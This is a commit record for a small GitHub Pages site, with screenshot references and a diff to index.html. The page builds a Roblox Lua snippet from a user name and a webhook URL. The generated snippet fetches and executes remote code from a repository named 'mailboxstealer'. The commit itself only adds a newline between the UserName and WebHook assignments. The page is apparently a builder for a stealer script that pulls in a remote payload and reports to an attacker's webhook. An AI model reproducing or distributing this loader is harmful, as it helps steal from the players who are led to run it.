

Before and after one commit to DupeHub/DupeHub.github.io, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample" into the empty fields and a click on the button "Generate". Shown: the part 193-728 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -47,7 +47,7 @@
        document.getElementById("submit").onclick = function() {myFunction()};
 
 function myFunction() {
-    scriptarea.innerHTML = 'UserName = "'+nameInput.value+'".WebHook = "'+hookInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/DupeHub/mailboxstealer/main/script"))()'
+    scriptarea.innerHTML = 'UserName = "'+nameInput.value+'"\nWebHook = "'+hookInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/DupeHub/mailboxstealer/main/script"))()'
 }
 </script>
 </body>
```
